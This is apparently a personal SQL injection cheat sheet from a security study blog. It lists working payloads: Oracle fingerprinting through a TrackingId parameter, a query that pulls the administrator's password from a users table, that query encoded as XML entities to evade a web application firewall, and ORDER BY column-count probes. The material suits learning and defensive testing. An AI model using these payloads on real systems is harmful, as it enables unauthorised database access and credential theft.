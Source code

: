 ```yaml
---
title: "SQLi cheatsheet"
date: 2025-01-04
description: "SQLi"
draft: false
author: "hsw"
type: "hidden"
tags: [web]
categories: [cheatsheet]
cover: 'https://easydmarc.com/blog/wp-content/uploads/2022/06/What-is-SQL-Injection-SQLi-and-How-to-Prevent-It_-1-1.jpg'
translationKey: 'media'
stage: 'budding'
toc: true
---
```


# NOTE:
In ORACLE, every SELECT statement must specify a table to select FROM
To test its the ORACLE is not, use this method or similar:

- If Oracle, this statement cause Interal Server Error:
`TrackingId=xyz'||(SELECT '')||'`
`TrackingId=KjXtzlai4eYNgiSL'UNION SELECT ''--`

- If not, verify with if no error occurs:
`TrackingId=xyz'||(SELECT '' FROM dual)||'`
`TrackingId=KjXtzlai4eYNgiSL'UNION SELECT '' FROM dual--`

Can use encode in XML parsing process to bypass the waf:

Example: use dec_entities encode and hex_entities encode to bypass:

`1 UNION SELECT password FROM users WHERE username='administrator'`

=> `&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;`




# UNION attack

## Detect numbers of columns of result set

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
